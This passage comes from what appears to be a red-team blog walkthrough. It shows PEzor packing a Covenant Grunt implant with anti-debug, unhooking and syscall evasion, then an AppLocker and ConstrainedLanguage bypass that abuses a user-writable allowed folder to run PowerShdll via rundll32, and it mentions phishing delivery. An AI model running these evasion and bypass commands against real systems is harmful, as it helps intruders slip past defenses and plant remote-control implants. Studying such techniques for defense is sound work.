 4. Wrap the C executable into PEZor  
   ```bash
   PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 /root/Desktop/Grunt_Nim.exe -z 2
   ```
   ![broken]({{ site.baseurl }}/images/2021-16-01/Building_PEZor.png "PEZor build")  

5. Deploy  
   ![broken]({{ site.baseurl }}/images/2021-16-01/Covenant_PEZor_run.png "PEZor run")  

   *Tada - Grunt incoming*  
   ![broken]({{ site.baseurl }}/images/2021-16-01/Covenant_PEZor_success.png "PEZor success")  

#### AppLocker & ConstrainedLanguage mode bypass -> Powershell load script -> AMSI bypass -> Invoke-SharpLoader -> Encrypted Grunt

If there wasn´t the AppLocker bypass needed, one could also run this completely from remote, i.e. in a phishing campaign starting with a .htm file or something like this, which runs our loader script.  
The whole attack is carried out on a low priv account.  

1. Identify a way to bypass AppLocker and ConstrainedLanguage  

   ![broken]({{ site.baseurl }}/images/2021-16-01/everything_blocked.png  "All blocked")

   To check the current PS language mode we can run:  
   ```powershell
   $ExecutionContext.SessionState.LanguageMode
   ```  

   We can issue the following PS cmdlet to identify all AppLocker policies in place:  
   ```powershell
   Get-ApplockerPolicy -Effective -xml > c:\users\luemmel\Desktop\applocker.xml
   ```  

   ![broken]({{ site.baseurl }}/images/2021-16-01/applocker_allow_dll.png  "Allow dll")

   We can see that the **Everyone** group is allowed to run stuff from *C:\Program Files (x86)\hMailServer\\*\*

   We can further check the ACLs on that folder with the following PS cmdlet:  
   ```powershell
   Get-Acl -path 'C:\Program Files (x86)\hMailServer\' | fl
   ```  

   ![broken]({{ site.baseurl }}/images/2021-16-01/acl_users_allowed.png  "Allowed users ACL")

   Which shows us that the **Users** group has write access to that specific folder. *Perfect - someone fucked up here. In Germany we say:"Hart verkackt."*  

2. Bypass AppLocker and ConstrainedLanguage  
  
   So now that we know how - let´s get our hands dirty.  

   Compile [PowerShdll](https://github.com/p3nt4/PowerShdll) and copy the dll to the client to **C:\Program Files (x86)\hMailServer\\*\* and run it:  
   ```powershell
   rundll32 'C:\Program Files (x86)\hMailServer\PowerShdll.dll',main -w
   ```  
